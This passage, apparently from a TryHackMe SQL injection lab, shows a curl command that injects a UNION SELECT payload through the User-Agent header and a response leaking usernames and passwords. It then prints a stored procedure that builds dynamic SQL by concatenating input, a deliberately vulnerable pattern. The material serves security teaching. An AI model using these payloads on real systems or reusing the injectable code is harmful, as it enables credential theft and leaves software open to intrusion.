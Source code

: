 
```bash
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.223.104/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
</html>
```

The server's response will be displayed in the terminal. If theÂ SQLÂ injection is successful, you will see the extracted data (usernames and passwords) in the response.

Exploiting Stored Procedures

Stored procedures are routines stored in the database that can perform various operations, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency, they can also be vulnerable toÂ SQLÂ injection if not properly handled.

![process flow of stored procedure](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785792)  

Stored procedures are precompiledÂ SQLÂ statements that can be executed as a single unit. They are stored in the database and can be called by applications to perform specific tasks. Stored procedures can accept parameters, which can make them flexible and powerful. However, if these parameters are not properly sanitised, they can introduceÂ SQLÂ injection vulnerabilities.

Consider a stored procedure designed to retrieve user data based on a username:

```php
CREATE PROCEDURE sp_getUserData
    @username NVARCHAR(50)
AS
BEGIN
    DECLARE @sql NVARCHAR(4000)
    SET @sql = 'SELECT * FROM users WHERE username = ''' + @username + ''''
    EXEC(@sql)
END
```

